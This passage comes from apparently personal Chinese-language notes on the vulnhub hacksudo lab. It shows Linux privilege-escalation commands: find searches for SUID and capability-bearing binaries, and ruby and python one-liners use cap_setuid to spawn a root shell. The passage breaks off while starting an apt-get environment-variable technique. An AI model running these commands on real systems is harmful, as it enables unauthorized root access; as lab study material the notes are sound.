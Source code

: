 ![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\56.jpg)

查看用法

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\57.jpg)

```shell
cp $(which ruby) .
sudo setcap cap_setuid+ep ruby

./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\58.jpg)



## python3语言

使用`find`寻找

```shell
find / -type f -executable 2>/dev/null | xargs /usr/sbin/getcap -r 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\59.jpg)

查看用法

```shell
cp $(which python) .
sudo setcap cap_setuid+ep python

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

与`python2`是一样的，都是`python`语言，只是版本不同

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\60.jpg)



# 环境变量提权

## apt-get临时变量

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\61.jpg)

不过测试，发现应该是调用`apt-get`，为什么呢，因为不管传参是什么都不会被接收，说明该文件本身不是`apt`，而是调用的
